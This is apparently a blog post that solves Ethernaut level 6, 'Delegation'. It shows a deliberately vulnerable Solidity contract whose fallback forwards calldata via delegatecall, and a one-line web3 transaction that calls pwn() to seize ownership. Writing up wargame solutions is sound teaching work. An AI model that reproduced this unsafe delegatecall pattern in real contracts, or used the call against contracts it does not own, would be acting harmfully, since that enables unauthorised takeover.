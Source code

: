 ```yaml
---
layout: post
title: Ethernaut - 6. Delegation
date:  2022-08-28
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌕🌑🌑🌑
> The goal of this level is for you to claim ownership of the instance you are given.<br /><br />
  Things that might help<br /><br />
  - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
  - Fallback methods
  - Method ids

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## Writeup

1. Get new Instance.
2. Call the method 
  ``` javascript

   await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})

   ```
   You can find the detail about `encodeFunctionSignature()` in [there](https://web3js.readthedocs.io/en/v1.2.11/web3-eth-abi.html#encodefunctionsignature) .
3. Submit instance ξ( ✿＞◡❛)

### Reference
[Solidity by example - delegatecall](https://solidity-by-example.org/delegatecall/)